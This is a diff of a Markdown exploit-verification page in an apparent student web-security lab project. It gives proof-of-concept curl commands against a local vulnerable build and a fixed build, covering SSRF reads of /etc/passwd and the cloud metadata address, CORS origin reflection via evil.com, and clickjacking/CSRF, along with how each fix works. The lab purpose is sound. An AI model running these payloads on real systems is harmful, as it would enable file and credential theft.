

Before and after one commit to Java-Idl/roomiesplit, a Markdown page: EXPLOIT_VERIFICATION.md, the part around one of its changes. Shown at 84% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/EXPLOIT_VERIFICATION.md
+++ b/EXPLOIT_VERIFICATION.md
@@ -53,22 +68,31 @@ curl -X POST "http://localhost:8000/import_receipt.php" -d "receipt_url=http://1
 ```
-*Expected Result:* The application fetches the internal cloud metadata and returns the filename of the saved content.
+*Expected Result:* The application fetches the internal cloud metadata, saves it, and returns the filename of the saved content.
+
+**PoC Command (Vulnerable - Local File Read):**
+```bash
+curl -X POST "http://localhost:8000/roomiesplit-vulnerable/import_receipt.php" -d "receipt_url=file:///etc/passwd"
+```
+*Expected Result:* Returns a filename containing the contents of `/etc/passwd`.
 
 **PoC Command (Secure):**
 ```bash
-curl -X POST "http://localhost:8001/import_receipt.php" -d "receipt_url=http://169.254.169.254/latest/meta-data/"
+curl -X POST "http://localhost:8000/roomiesplit-secure/import_receipt.php" -d "receipt_url=file:///etc/passwd"
+curl -X POST "http://localhost:8000/roomiesplit-secure/import_receipt.php" -d "receipt_url=http://169.254.169.254/latest/meta-data/"
 ```
-*Expected Result:* The script resolves the IP and checks it against `FILTER_FLAG_NO_PRIV_RANGE`, `FILTER_FLAG_NO_RES_RANGE` and the specific metadata IP, returning an error: `{"status":"error","message":"Invalid or restricted IP address."}`.
+*Expected Result:* The script restricts URL schemes to `http/https` (rejecting `file://`), resolves the IP, and checks it against `FILTER_FLAG_NO_PRIV_RANGE`, `FILTER_FLAG_NO_RES_RANGE` and the specific metadata IP, returning an error: `{"status":"error","message":"Invalid or restricted IP address."}`.
 
 ---
 
 ## 4. CORS Misconfiguration (`api/balances.php`)
 
-**Vulnerability:**
+**Vulnerability & Code Reference:**
 The application blindly reflects the `Origin` header and sets `Access-Control-Allow-Credentials: true`, allowing any origin to read authenticated CORS responses.
+- Vulnerable Code: [`roomiesplit-vulnerable/api/balances.php`](file:///c:/Users/java/projects/sem7/was/project_end_sem_lab/roomiesplit-vulnerable/api/balances.php#L5-L10)
+- Mitigated Code: [`roomiesplit-secure/api/balances.php`](file:///c:/Users/java/projects/sem7/was/project_end_sem_lab/roomiesplit-secure/api/balances.php#L10-L19)
 
 **PoC Command (Vulnerable):**
 ```bash
-curl -I "http://localhost:8000/api/balances.php" -H "Origin: https://evil.com"
+curl -I "http://localhost:8000/roomiesplit-vulnerable/api/balances.php" -H "Origin: https://evil.com"
 ```
 *Expected Result:*
 ```http
@@ -78,26 +102,32 @@ Access-Control-Allow-Credentials: true
 
 **PoC Command (Secure):**
 ```bash
-curl -I "http://localhost:8001/api/balances.php" -H "Origin: https://evil.com"
+curl -I "http://localhost:8000/roomiesplit-secure/api/balances.php" -H "Origin: https://evil.com"
 ```
 *Expected Result:* The `Access-Control-Allow-Origin` and `Access-Control-Allow-Credentials` headers are absent for an untrusted origin because `https://evil.com` is not in the whitelist.
 
 ---
 
-## 5. Clickjacking (`settle_action.php`)
+## 5. Clickjacking & CSRF (`settle_action.php` / `index.php`)
 
-**Vulnerability:**
-The application fails to send `X-Frame-Options` or `Content-Security-Policy` headers, allowing the site to be framed by a malicious domain to trick the user into clicking the "One-Click Settle All" button.
+**Vulnerability & Code Reference:**
+The application fails to send `X-Frame-Options` or `Content-Security-Policy` headers, allowing the site to be framed by a malicious domain. Additionally, it lacks CSRF tokens in forms.
+- Vulnerable Code: [`roomiesplit-vulnerable/settle_action.php`](file:///c:/Users/java/projects/sem7/was/project_end_sem_lab/roomiesplit-vulnerable/settle_action.php) (Missing Headers & CSRF checks)
+- Mitigated Code: [`roomiesplit-secure/settle_action.php`](file:///c:/Users/java/projects/sem7/was/project_end_sem_lab/roomiesplit-secure/settle_action.php#L10-L21)
 
-**PoC Command (Vulnerable):**
+**Attack Methods:**
+- **Clickjacking:** Framing the site in an invisible iframe and positioning a button (e.g. a fake "Play Game" button) over the "One-Click Settle All" button.
+- **CSRF:** Forcing the victim's browser to submit a cross-site POST request to `settle_action.php` to settle debts unintentionally.
+
+**PoC Command (Vulnerable - Clickjacking):**
 ```bash
-curl -I "http://localhost:8000/settle_action.php"
+curl -I "http://localhost:8000/roomiesplit-vulnerable/settle_action.php"
 ```
 *Expected Result:* The response does not contain anti-framing headers (`X-Frame-Options` or `Content-Security-Policy`).
 
-**PoC Command (Secure):**
+**PoC Command (Secure - Clickjacking):**
 ```bash
-curl -I "http://localhost:8001/settle_action.php"
+curl -I "http://localhost:8000/roomiesplit-secure/settle_action.php"
 ```
 *Expected Result:*
 ```http
````
Also changed, not shown: other parts of EXPLOIT_VERIFICATION.md (+36 -19 lines).
